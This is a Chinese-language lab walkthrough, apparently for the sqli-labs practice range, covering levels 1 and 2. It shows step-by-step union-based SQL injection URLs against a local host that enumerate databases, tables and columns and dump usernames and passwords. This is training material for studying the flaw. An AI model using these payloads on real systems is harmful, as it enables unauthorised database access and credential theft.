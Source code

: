 # SQLI靶场
    


[![NPM](https://img.shields.io/npm/v/docsify-themeable.svg?style=flat-square)](https://www.npmjs.com/package/docsify-themeable)
[![Codacy grade](https://img.shields.io/codacy/grade/860d40719cbd4e0f91e145b87ec7c29a.svg?style=flat-square)](https://www.codacy.com/app/jhildenbiddle/docsify-themeable?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=jhildenbiddle/docsify-themeable&amp;utm_campaign=Badge_Grade)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=flat-square)](https://github.com/jhildenbiddle/docsify-themeable/blob/master/LICENSE)
[![jsDelivr](https://data.jsdelivr.com/v1/package/npm/docsify-themeable/badge)](https://www.jsdelivr.com/package/npm/docsify-themeable)
[![Tweet](https://img.shields.io/twitter/url/http/shields.io.svg?style=social)](https://twitter.com/intent/tweet?url=https%3A%2F%2Fgithub.com%2Fjhildenbiddle%2Fdocsify-themeable&hashtags=css,docsify,developers,frontend)
<a class="github-button" href="https://github.com/jhildenbiddle/docsify-themeable" data-icon="octicon-star" data-show-count="true" aria-label="Star jhildenbiddle/docsify-themeable on GitHub">Star</a>

## <font color = #1E90FF>第一关-GET – 基于错误 – 单引号 – 字符型</font>
    可以在代码里sql语句下添加输出语句，更方便查看sql语句的效果
      
      $sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
      echo "your sql statement is ".$sql."<br>";   
**1.添加id=1正常，id=1' 报错，报错，发现报错信息多出一个单引号，后面闭合语句也是用的单引号发现页面返回正常，说明是字符型注入，单引号。**
```
http://192.168.2.135/sqli/Less-1/?id=1'
```
  <figure class="thumbnails">
    <img src="assets/img/sqli第一关.png"   >
    
</figure>

**2.在url中把单引号后面的语句注释掉。 返回正常，说明sql语句执行成功了，因为条件永远为真，所以正常返回**
```  
http://192.168.2.135/sqli/Less-1/?id=1' --+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关1.png"   >
    
</figure>

**3. 猜解字段数，测试到4的时候报错，说明字段数是3。**
```
http://192.168.2.135/sqli/Less-1/?id=1' order by 3--+ 
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关2.png"   >
    
</figure>

**4.确定显位数字，发现2,3均可回显**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,3--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关3.png"   >
    
</figure>

**5.获取当前数据库名，报错注入，数据库名为：security**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
(select database()) ,
3 --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关4.png"   >
    
</figure>

**6.还可以获取所有的数据库名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(schema_name) from information_schema.schemata)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关5.png"   >
    
</figure>

**7.获取当前数据库security的表名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(table_name) from information_schema.tables where table_schema =0x7365637572697479)--+

(security的hex编码是7365637572697479)
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关6.png"   >
    
</figure>

**8.获取表的列名**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,
2,
(select group_concat(column_name) from information_schema.columns where table_schema =0x7365637572697479 and table_name=0x7573657273)--+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关8.png"   >
    
</figure>


**9.获取字段数据**
```
http://192.168.2.135/sqli/Less-1/?id=-1' union select 1,2,
(select group_concat(id,0x7c,username,0x7c,password) from security.users) --+
```

  <figure class="thumbnails">
    <img src="assets/img/sqli第一关7.png"   >
    
</figure>

**10.其他语句等等**

### 第一关结束！！！！

## <font color = #1E90FF>第二关-GET – 整型</font>
**可以在代码里sql语句下添加输出语句，更方便查看sql语句的效果**
```
 echo "your sql statement is ".$sql."<br>";  
```

**1.添加id=1正常，id=1' 报错，报错，发现报错信息只有单引号，说明是整型注入。**
```
http://192.168.2.135/sqli/Less-1/?id=1'
```
  <figure class="thumbnails">
    <img src="picture/Sqlibc/two/1.png"   >
    
</figure>

**2. 猜解字段数，测试到4的时候报错，说明字段数是3。**
```
http://192.168.2.135/sqli/Less-1/?id=1 order by 3--+ 
```

**3.确定显位数字，发现2,3均可回显**
```
http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,2,3 --+
```

  <figure class="thumbnails">
    <img src="picture/Sqlibc/two/2.png"   >
    
</figure>

**3.获取当前数据库名，报错注入，数据库名为：security**
```
http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,
(select database()) ,
3 --+
```

  <figure class="thumbnails">
     <img src="picture/Sqlibc/two/3.png"   >
    
</figure>

**4.还可以获取所有的数据库名**
```
http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,
2,
(select group_concat(schema_name) from information_schema.schemata)--+
```


**5.获取当前数据库security的表名**
```
http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,
2,
(select group_concat(table_name) from information_schema.tables where table_schema =0x7365637572697479)--+  

(security的hex编码是7365637572697479)
```

**6.获取表的列名**
```
http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,
2,
(select group_concat(column_name) from information_schema.columns where table_schema =0x7365637572697479 and table_name=0x7573657273)--+
```


**7.获取字段数据**
```
http://192.168.2.135/sqli/Less-1/?id=-1 union select 1,2,
(select group_concat(id,0x7c,username,0x7c,password) from security.users) --+
```


**8.其他语句等等**

### 第二关结束！！！！



<!-- GitHub Buttons -->
<script async defer src="https://buttons.github.io/buttons.js"></script>